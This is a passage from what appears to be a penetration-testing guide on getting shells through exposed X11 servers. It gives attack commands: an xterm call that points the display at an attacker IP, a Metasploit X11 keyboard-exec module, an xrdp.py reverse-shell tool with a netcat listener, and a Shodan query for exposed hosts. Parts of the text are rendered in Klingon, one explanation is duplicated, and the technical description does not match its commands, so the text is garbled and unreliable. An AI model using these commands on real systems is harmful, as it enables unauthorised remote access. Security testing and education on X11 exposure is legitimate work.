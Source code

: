 This will open an X11 terminal on the attacker's machine, with the display forwarded from the target system. From here, you can execute commands as if you were on the target system.

### X11 Client-Side Attack

In some cases, the target system may have an X11 client running with weak or no access control. This can be exploited to execute arbitrary commands on the target system.

To exploit this vulnerability, set the `DISPLAY` environment variable to the attacker's IP address and execute the desired command:

```
export DISPLAY=attacker_ip:0
xterm -display target_ip:0
```

This will open an X11 terminal on the attacker's machine, with the display forwarded from the target system. From here, you can execute commands as if you were on the target system.

### Conclusion

Obtaining a shell through X11 vulnerabilities can provide an attacker with significant control over a target system. It is important to be aware of these vulnerabilities and take appropriate measures to secure X11 servers and clients.
```
msf> use exploit/unix/x11/x11_keyboard_exec
```
**Qa'vIn Qa'leS:** Xrdp jatlhpu' netcatDaq qaStaHvIS reverse shell laH. vItlhutlh 'ej vItlhutlh command:
```bash
./xrdp.py \<IP:0> –no-disp
```
In the interface you can see the **R-shell option**.

Then, start a **Netcat listener** in your local system on port 5555.
```bash
nc -lvp 5555
```
ngoQ, **R-Shell** vItlhutlh IP address je port vaj click **R-shell** vIlegh shell. 

## References
* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
* [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
* [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

## Shodan

* `port:6000 x11`

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>
